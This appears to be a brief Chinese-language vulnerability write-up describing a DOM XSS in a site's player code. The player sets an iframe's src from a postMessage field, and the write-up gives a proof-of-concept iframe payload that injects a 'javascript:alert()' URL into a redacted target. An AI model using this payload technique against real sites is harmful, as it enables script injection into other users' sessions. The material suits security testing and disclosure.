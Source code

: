 触发的方式不只一种 最简单的是ACMEplayer.element.src = d.url;<br>
直接设置iframe的src<br>
json只要有type 和url即可<br>

    {"type":"load-channel","url":"javascript:alert()"}
    
**payload**

    <iframe src='https://www.xxxx.com' onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:alert()\"}","*")'>

